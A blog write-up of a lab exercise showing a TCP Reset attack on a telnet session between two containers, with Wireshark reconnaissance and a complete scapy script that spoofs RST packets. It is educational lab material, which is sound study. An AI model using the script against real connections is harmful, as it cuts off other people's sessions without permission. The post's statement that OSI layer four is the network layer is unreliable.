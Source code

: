 +++
title = "TCP Attack Lab 1 - TCP Reset"
date = "2023-04-26"
description = "Resetting a TCP connection."

tags = ["security","writeup",]
+++


We reset a TCP connection between two hosts on our network.

TCP is a critical protocol at the fourth layer of the OSI model of the network stack, the network layer, yet it has some vulnerabilities. We will reset, hijack, and obtain a reverse shell from a `telnet` connection between two unsuspecting users to demonstrate the vulnerabilities.

In the first part of this series, we will conduct a TCP Reset attack on the `telnet` connection.


# Setup

Please see the series [overview post](/blog/posts/tcp-attack-lab/0-overview) for setup instructions.

 
# Resetting a `telnet` Connection

In this demonstration, I will show how an attacker on the same LAN as two machines that have an existing telnet connection can reset the connection.

First, we need to simulate the `telnet` connection between User 1 and User 2. In one terminal window, establish the connection from user 1 to User 2.


# Reconnaissance 

Then, I open Wireshark and monitor the LAN interface. I select the bridge interface starting with "br-". The characters following may change if you stop and start the containers in a separate occurrence.

!["wireshark init page"](/blog/images/tcp-reset/wireshark-init.png)

Select the bridge interface.

---

In the `telnet` connection, I run a command like `echo hello` to generate some traffic over the `telnet` connection. 

!["victim telnet connection"](/blog/images/tcp-reset/telnet-init.png)

The existing telnet connection with a command executed. This image also shows the initial command used to establish the connection.

---

The last TCP packet sent from User 1 to User 2 will inform the source port number and sequence number used in the RST packet we will spoof from the attacker.

!["wireshark screen capture"](/blog/images/tcp-reset/wireshark.png)

Using Wireshark to construct our RST packet.

---


# Running the exploit

The following code will send our RST packet:

```python
from scapy.all import * 
import argparse
 
def spoof_reset_packet(src_port, seq_num):
  user1_ip = "10.9.0.6"
  user2_ip = "10.9.0.7"
  
  user1_port = src_port
  user2_port = 23
  
  ip = IP(src=user1_ip, dst=user2_ip)
  tcp = TCP(sport=user1_port, dport=user2_port, flags="R", seq=seq_num)
  pkt = ip/tcp
  
  print("SENDING RESET PACKET........")
  send(pkt, verbose=0)
   
if __name__ == "__main__":
  parser = argparse.ArgumentParser()
  parser.add_argument("-p", "--src_port", type=int, help="source port", required=True)
  parser.add_argument("-s", "--seq", type=int, help="last sequence number", required=True)

  args = parser.parse_args()
  spoof_reset_packet(args.src_port, args.seq)
```

For convenience, I designed the program to take in arguments for the source port number and the sequence number. I invoke it as follows with the source port and sequence numbers taken from Wireshark.

!["attack"](/blog/images/tcp-reset/reset-attack.png)

Running the attack program with arguments for source port and sequence number.

---

When we go back to the `telnet` connection, we see that the connection was disconnected.

!["reset connection"](/blog/images/tcp-reset/reset-connection.png)

The telnet connection is reset.

---


# That's it!

In this post we learned about one exploit on TCP connections, namely the TCP Reset attack.

In the next part, we will expand on the knowledge gained from conducting the RST attack to hijack the `telnet` connection to run an arbitrary command.


### _Updated: April 26, 2023_
